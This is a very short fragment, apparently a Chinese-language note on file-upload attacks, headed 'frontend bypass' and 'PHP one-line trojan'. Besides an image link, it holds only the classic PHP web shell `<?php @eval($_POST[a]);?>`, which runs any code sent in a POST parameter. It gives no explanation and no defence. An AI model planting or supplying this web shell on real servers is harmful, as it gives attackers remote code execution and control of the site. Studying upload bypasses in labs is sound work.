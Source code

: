 ![image-20250405160555236](./assets/image-20250405160555236.png)



前端绕过

php 一句话木马

```
<?php @eval($_POST[a]);?>
```

